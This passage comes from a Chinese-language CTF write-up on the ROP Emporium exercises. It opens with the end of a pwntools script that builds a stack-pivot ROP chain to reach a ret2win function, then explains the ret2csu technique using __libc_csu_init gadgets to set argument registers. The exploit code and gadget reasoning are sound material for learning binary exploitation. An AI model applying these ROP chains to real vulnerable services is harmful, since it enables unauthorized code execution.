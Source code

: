 ```python
payload += p64(rax) + p64(elf.got['foothold_function'])	# get rax to the address of .got
payload += p64(rax_addr)		# read the address to rax
payload += p64(add_rax)
payload += p64(jmp_rax)
io.sendlineafter(b'> ', payload)

# ROP chain in stack
payload = cyclic(32)	# 0x20
payload += p64(lib.symbols['ret2win'] - lib.symbols['foothold_function'])	# value that needed to be added to rax later
payload += p64(rax) + p64(fake_stack)	# pop fake stack address to rax
payload += p64(rsp)						# exchange rax and rsp, the length of first ROP comes to the limit: 0x40
io.sendlineafter(b'> ', payload)

io.interactive()
```

# 8. ret2csu

这是一种利用__libc_csu_init函数构造ROP的攻击方式。在本题中，由于是64位程序，因此在有些细节方面可能不好把握。

![](https://img-blog.csdnimg.cn/7e3d8999ad3b4824a9e8a6937c3118f8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBATDNIX0NvTGlu,size_20,color_FFFFFF,t_70,g_se,x_16)

本题有后门函数ret2win，但是要想拿到shell首先需要传入正确的参数，即第7行的3个参数。

ret2csu的攻击流程大致如下：

首先将返回地址改到ret2csu函数的这个地方：
![](https://img-blog.csdnimg.cn/f0cc71685ea44b81842923a51a9622a6.png)
在这里我们可以控制一系列寄存器的值。如果我们使用ROPgadget查找还能够发现惊喜。
![](https://img-blog.csdnimg.cn/3f6b36c38de5463c8575e86e8009d44f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBATDNIX0NvTGlu,size_20,color_FFFFFF,t_70,g_se,x_16)
注意到上面的pop rdi; ret了吗？它实际上是将原来的pop r15指令拆掉了，其机器码正好是5F，上面的pop rsi, ret同理。因此在这里我们可以控制的寄存器有：rbx,rbp,r12,r13,r14,r15,rdi,rsi，其中rdi,rsi是作为函数的前两个参数传递的，因此我们可以正确地传入前两个参数。

第三个函数参数在rdx中保存，可惜我们这里并不能控制rdx，这就需要用到__libc_csu_init函数的第二个gadget了：
![](https://img-blog.csdnimg.cn/0fa8d75ba48a4c8a92aadcdbdadf46f4.png)
这里可以将rdx赋值为r15的值，而我们之前能够控制r15的值，因此第三个参数能够正确传入。后面的call指令，由于我们能够控制r12和rbx的值，那么也就相当于我们可以call任意一个地址。

但是！有一个问题出现了。请注意，这里会对rdx,rsi,edi进行赋值。其中rdx和rsi的赋值都没问题，我们将参数事先存放到r15和r14中即可。问题就出在对edi的赋值上。根据测试检验发现，mov esi, r13d指令会将rdi的高32位清零。这就会导致我们的第一个参数错误。但好巧不巧的是其后面就是call指令，我们已经没有机会再去修改这个错误了。

我曾经想过，如果第一次能够call回到第一个ROP段中将rdi重新pop一次，之后直接返回到call指令，或许有用。但这里的call是取地址，如果将r12+rbx*8改为pop rdi;ret的地址，实际上call的并不是这里，而是会读取这里的机器码call出去，这当然是会崩溃的。

参考其他资料发现这里的指令依libc版本不同而可能不同，在有些版本中是mov rdi, r13，这样的话没有任何问题，但现在这种情况就需要动动脑子了。问师傅，鸽了两周都不回——无奈只能全论坛找答案。（菜）

参考文章：[传送门](https://blog.csdn.net/devil8123665/article/details/123810055?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165052857116780357264558%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=165052857116780357264558&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-3-123810055.142^v9^control,157^v4^control&utm_term=ROP_emporium+ret2csu&spm=1018.2226.3001.4187)
